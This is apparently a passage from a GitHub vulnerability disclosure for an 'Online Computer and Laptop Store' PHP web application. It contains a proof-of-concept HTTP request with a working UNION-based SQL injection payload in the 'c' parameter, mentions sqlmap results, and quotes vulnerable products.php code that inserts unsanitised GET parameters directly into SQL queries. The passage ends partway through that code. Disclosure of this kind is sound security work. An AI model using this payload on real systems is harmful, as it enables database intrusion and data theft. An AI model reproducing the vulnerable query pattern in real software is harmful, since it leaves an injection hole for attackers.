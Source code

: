 ### Sample request POC #2

```
GET /?p=products&c=%27%20UNION%20ALL%20SELECT%20NULL,NULL,CONCAT(0x717a626271,0x6b5378665945517142636658635356665470564a4a7475446563554a4e52454a6173464a426f4451,0x717a6b6a71),NULL,NULL,NULL--%20-&s= HTTP/1.1
Host: 10.211.55.3:8001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683795300603.jpg "Online Computer and Laptop Store - Multiple vulnerabilities")

### Related Codes /products.php
```
<?php 
$title = "";
$sub_title = "";
if(isset($_GET['c']) && isset($_GET['s'])){
    $cat_qry = $conn->query("SELECT * FROM categories where md5(id) = '{$_GET['c']}'");
    if($cat_qry->num_rows > 0){
        $result =$cat_qry->fetch_assoc();
        $title = $result['category'];
        $cat_description = $result['description'];
    }
 $sub_cat_qry = $conn->query("SELECT * FROM sub_categories where md5(id) = '{$_GET['s']}'");
    if($sub_cat_qry->num_rows > 0){
        $result =$sub_cat_qry->fetch_assoc();
        $sub_title = $result['sub_category'];
        $sub_cat_description = $result['description'];
    }
}
elseif(isset($_GET['c'])){
    $cat_qry = $conn->query("SELECT * FROM categories where md5(id) = '{$_GET['c']}'");
    if($cat_qry->num_rows > 0){
        $result =$cat_qry->fetch_assoc();
        $title = $result['category'];
        $cat_description = $result['description'];
    }
}
elseif(isset($_GET['s'])){
    $sub_cat_qry = $conn->query("SELECT * FROM sub_categories where md5(id) = '{$_GET['s']}'");
    if($sub_cat_qry->num_rows > 0){
        $result =$sub_cat_qry->fetch_assoc();
        $sub_title = $result['sub_category'];
```